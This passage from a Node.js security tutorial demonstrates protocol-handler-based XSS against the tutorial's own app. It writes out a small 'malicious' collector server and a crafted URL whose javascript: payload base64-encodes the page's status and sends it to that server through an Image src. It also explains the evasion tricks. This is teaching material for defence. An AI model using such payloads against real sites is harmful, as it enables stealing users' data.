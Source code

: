 ### There's more

Our server is still vulnerable, let's fix it. Also let's explore
some other practices that help with general server security. 

#### Preventing protocol-handler-based XSS

Our server is still vulnerable to XSS injection.

In this scenario, an attacker is going to steal the status
(which represents privileged information).

Let's use the following command to create a "malicious" 
data collection server: 

```sh
$ node -e "require('http').createServer((req, res) => {
  console.log(
    req.connection.remoteAddress, 
    Buffer(req.url.split('/attack/')[1], 'base64').toString().trim()
  )
}).listen(3001)"
```

We're using the `-e` flag (evaluate) to quickly spin up an HTTP 
server that logs the user IP address, and stolen status. It's 
expecting the status to be base64 encoded (this helps to avoid
potential errors on the client side). 

Now let's start the `fixed-app` server from the main recipe:

```sh
$ cd fixed-app
$ node index.js
``` 

In the browser, we'll use the following URL to initiate the attack:

http://localhost:3000/?prev=javascript:(new%20Image().src)=`http://localhost:3001/attack/${btoa(stat.innerHTML)}`,0/

This won't change any visible rendering but it will cause the 
"Back to Control HQ" link to point to `javascript:(new Image().src)=``http://localhost:3001/attack/${btoa(stat.innerHTML)}``,0/`.

When the link is clicked, an HTML `<img>` element is created, 
(via the JavaScript `Image` constructor), with the `src` attribute set to
our attack server with the base64 encoded stolen status. We use the `btoa`
global function to base64 encode, and the global DOM element ID behavior
to again grab the inner html of the status `<div>`. The following `,0` 
portion causes the return value of the entire expression to be 
falsey, if the return value is not falsey the browser will render it
(in this case the absence of the `,0` would result in the browser rendering
the attack URL, which is a dead giveaway). The final forward slash `/`
couples with the forward slash after the `prev` parameter to create a 
double forward slash (`//`), which in JavaScript is comment. This causes
the rest of the content in the `href` to be ignored.  
